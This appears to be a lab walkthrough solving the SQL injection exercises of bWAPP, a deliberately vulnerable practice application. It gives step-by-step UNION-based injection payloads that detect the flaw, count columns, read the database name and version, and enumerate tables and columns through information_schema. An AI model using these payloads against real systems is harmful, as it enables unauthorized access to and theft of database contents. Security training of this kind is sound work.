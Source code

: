 # bWAPP-Solutions
bWAPP - SQL Injection

We added `'` character to the id in the url to see what kind of output we will get.

`172.16.112.128/bWAPP/sqli_2.php?movie=1'&action=go`

The output depends on the script's quality. If script filters input then no SQL error would be returned. Page will load normally or give a warning like “Attack Spotted, Your IP Address has been recorded” or something similar.  However we have got error like this: 

`Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1`

Now we know that there is no any filter. Since we got an error, we are sure that this is SQL injectable and we can try to get some hidden data information from database.
 
##### SQL Injection (Select/GET)

###### Find Column Number of the SQL statement

There are two ways to find number of columns.

1. Using Order by

Order by  statement tell the database how to order the result. For example, the command below will order all the result by ascending order. Also we can change asc to desc.

Select name,age from user Where id=1 Order by user asc

It doesn't matter if column integer or string. Server will automatically order it by checking column type. Order by also can have number instead of column in select statement.  Using this method we can check how many column numbers in table.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 order by 1-- &action=go` and we didn't get error until we enter column number 8.That means we have 7 column in our  movies table.

We put `--` comment character to end of SQL command to get rid of leftover strays. 

2. Using Union

Using union select or union all select statements we can see which columns are outputted to the site. Then we can use to retrieve and output our data. Using union all select can prevent type mismatch and get around queries that use the keyword DISTINCT. Note that, we can also get number of columns by adding numbers to the union statement until page will be displayed normally.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`

with “and 1=0” because only want to get data from union all statement. If we just wrote union statement without “and 1=0” then first select would overwrite second one.

Now we know that we can retrieve stolen data using 2,3,5,4 columns and we'll get database name and version using these columns.

###### Find Name of the Current Database

Adding database() to second column we can retrieve database name in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,database(),3,4,5,6,7--&action=go`

###### Find Version of the Database

Adding version() or @@version to second column we can retrieve database version in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),3,4,5,6,7--&action=go`

or 

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),@@version,4,5,6,7--&action=go` 

##### SQL Injection (Search/POST)

###### List Table Names and Number of Records in Each Table of the Database.

All the table names and column names holds in Information_Schema database. To get tables, we would use information_schema like this:

Select table_name from information_schema.tables 

Using this query we can get all of the table names from database. Also column names by changing tables to columns. This only avaliable in version 5 and up. We find out version of the database adding version() to union statement. 

If we type “ma” to the search field we can see that query is something like “Select name From table Where name like '%ma%'. Server looking for value in the table containing “ma” pattern and can have text before and after it.  It could be amazing, Spider-Man or just Man.  We also can know what kind of input program expects from sqli_6.php

Using this SQL query we can get all of table schema and names from information_schema.tables.

`' and 1 = 0 union all select 1,table_schema,table_name,4,5,6,7 from information_schema.tables where 1=0 or 1=1-- '`

There were a lot of database name and table names. The reason is that we added 1=1 to end of query and that means bring all of the database and table names to us. There are more elegant ways to get table names of the database. For example,

`' and 1=0 union all select 1,table_schema,table_name,4,table_rows,6,7 from information_schema.tables where table_schema = 'bwapp'-- '`

table_schema was written to title which corresponds column 2, table_name was written to release which corresponds to column 3 and table_rows (records) was written to character which corresponds to column 5.

###### List Column Names of Each Table

We can retrieve column names by writing column names to information_schema instead of table names.  For example, 

Select column_name from information_schema.columns

Let's enter each table name to query to get columns names of table.

1. Blog Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'blog' and table_schema = 'bwapp'-- '`

2. Heroes Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'heroes' and table_schema = 'bwapp'-- '`

3. Movies Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'movies' and table_schema = 'bwapp'-- '`

4. Users Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' and table_schema = 'bwapp'-- '`







